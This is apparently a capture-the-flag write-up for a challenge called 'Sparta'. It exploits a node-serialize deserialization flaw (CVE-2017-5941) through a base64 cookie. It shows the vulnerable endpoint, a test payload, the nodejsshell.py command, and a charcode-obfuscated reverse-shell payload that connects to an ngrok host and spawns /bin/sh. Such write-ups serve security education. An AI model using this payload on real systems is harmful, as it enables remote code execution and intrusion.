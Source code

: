 ```yaml
---
description: node.js deserialization vulnerability leads to RCE.
---
```


# Sparta

## Problem

Spartanians are starting to lose their great power, help them move their objects and rebuild their Empire.

## Solution

In the given source code, we can see that the `/guest` endpoint deserializes the base 64 decoded `guest` cookie.

```javascript
app.post('/guest', function(req, res) {
   if (req.cookies.guest) {
       var str = new Buffer(req.cookies.guest, 'base64').toString();
       var obj = serialize.unserialize(str);
       if (obj.username) {
         res.send("Hello " + escape(obj.username) + ". This page is currently under maintenance for Guest users. Please go back to the login page");
   }
 } else {
     var username = req.body.username 
     var country = req.body.country 
     var city = req.body.city
     var serialized_info = `{"username":"${username}","country":"${country}","city":"${city}"}`
     var encoded_data = new Buffer(serialized_info).toString('base64');
     res.cookie('guest', encoded_data, {
       maxAge: 900000,
       httpOnly: true
     });
 }
```

There is a well-known deserialization vulnerability in node.js that leads to RCE \([CVE-2017-5941](https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf)\).

By passing a serialized object like the following into `serialize.unserialize()`, we can achieve RCE.

```javascript
{"rce":"_$$ND_FUNC$$_function (){\n \t
require('child_process').exec('ls /', function(error, stdout, stderr) {
console.log(stdout) });\n }()"}
```

This relies on JavaScript's Immediately Invoked Function Expression \(IIFE\): notice the IIFE bracket after the function expression:

```javascript
function (){ ... }()
```

Now, we can execute a reverse shell payload within the function that would be fired when the data is deserialized. Using [nodejsshell.py,](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) we can craft such a payload.

In my case: `python nodejsshell.py 2.tcp.ngrok.io 13755` allowed me to generate a reverse shell payload for my ngrok tunnel.

![](../.gitbook/assets/image%20%282%29.png)

Then, we can copy the output into the function body.

```javascript
var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_function(){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,50,46,116,99,112,46,110,103,114,111,107,46,105,111,34,59,10,80,79,82,84,61,34,49,51,55,53,53,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}';
serialize.unserialize(payload);
```

Once we tested that our payload works, we can encode the payload to base 64, and send it through the cookie header.

![](../.gitbook/assets/image%20%286%29.png)

We obtain a reverse shell, which allows us to read the flag.

![](../.gitbook/assets/image%20%283%29.png)

## References:

1. [https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf](https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf)
2. [https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)

